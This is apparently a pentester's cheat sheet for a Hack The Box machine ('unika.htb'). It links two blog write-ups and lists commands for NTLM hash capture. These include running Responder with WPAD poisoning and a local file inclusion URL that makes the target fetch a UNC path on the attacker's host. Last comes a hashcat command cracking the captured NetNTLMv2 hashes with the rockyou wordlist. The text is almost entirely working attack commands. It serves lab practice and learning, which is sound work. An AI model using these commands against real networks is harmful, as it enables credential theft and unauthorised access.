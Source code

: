 https://blog.geoda-security.com/2018/05/gaining-foothold-using-responder-to.html
https://systemweakness.com/htb-lessons-learned-ntlm-hash-grabing-using-responder-39dcd4a64406

```
IP=<IP>
printf "%s\t%s\n\n" "$IP" "unika.htb" | sudo tee -a /etc/hosts
```

```
responder -I tun0
```
###### WPAD
```
responder -I tun0 -wd
```
###### LFI - GET NTLM HASH
```
https://example.com/?page=//<local-ip>/test
```
###### CRACK HASH
```
hashcat -a 0 -m 5600 responder-ntlmv2 /home/kali/Desktop/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
